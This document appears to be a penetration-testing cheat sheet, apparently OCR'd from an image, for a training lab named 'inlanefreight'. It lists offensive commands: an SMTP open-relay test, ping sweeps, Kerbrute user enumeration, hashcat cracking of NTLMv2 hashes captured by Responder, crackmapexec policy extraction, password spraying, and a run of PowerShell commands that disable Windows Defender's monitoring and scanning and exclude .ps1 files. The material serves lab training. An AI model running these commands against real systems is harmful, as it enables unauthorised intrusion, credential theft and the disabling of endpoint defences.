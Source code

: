 Test SMTP open relay
- `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213`

## Active Directory

### Initial Enumeration

Perform a ping sweep on a network segment
- `fping -asgq 172.16.5.0/23`

Enumerate domain users with Kerbrute
- `./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results`

### LLMNR Poisoning

Crack NTLMv2 hashes captured by Responder
- `hashcat -m 5600 frond_ntlmv2 /usr/share/wordlists/rockyou.txt -o found.txt`

### Password Spraying and Password Policies

Extract password policy
- `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`

Perform a password spraying attack
- `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`

### Enumerating and Bypassing AV

Check if Defender is enabled
- `Get-MpComputerStatus`
- `Get-MpComputerStatus | Select AntivirusEnabled`

Disable real-time monitoring
- `Set-MpPreference -DisableRealtimeMonitoring $true`

Disable IOAV protection
- `Set-MpPreference -DisableIOAVProtection $true`

Disable behavior monitoring
- `Set-MPPreference -DisableBehaviourMonitoring $true`

Disable block at first seen
- `Set-MPPreference -DisableBlockAtFirstSeen $true`

Disable email scanning
- `Set-MPPreference -DisableEmailScanning $true`

Disable script scanning
- `Set-MPPReference -DisableScriptScanning $true`

Exclude files by extension
- `Set-MpPreference -ExclusionExtension "ps1"`

